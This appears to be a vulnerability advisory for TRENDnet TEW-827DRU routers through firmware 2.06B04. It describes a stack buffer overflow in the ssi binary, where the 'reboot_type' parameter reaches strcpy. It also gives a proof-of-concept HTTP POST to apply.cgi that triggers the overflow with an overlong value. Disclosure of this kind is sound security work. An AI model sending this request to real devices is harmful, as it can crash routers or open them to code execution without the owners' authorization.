

# TEW-827DRU
## Firmware version
TEW-827DRU devices through 2.06B04
## description
TRENDnet TEW-827DRU devices through 2.06B04 contain a stack-based buffer overflow in the ssi binary. The overflow allows an authenticated user to execute arbitrary code by POSTing to apply.cgi via the action wizard_ipv6 with a sufficiently long reboot_type key.
## detail
The bug in function 0x434590, binary www/cgi/ssi
The parameter 'reboot_type' pass to strcpy


## Send package
```txt
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

action=wizard_ipv6&reboot_type=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
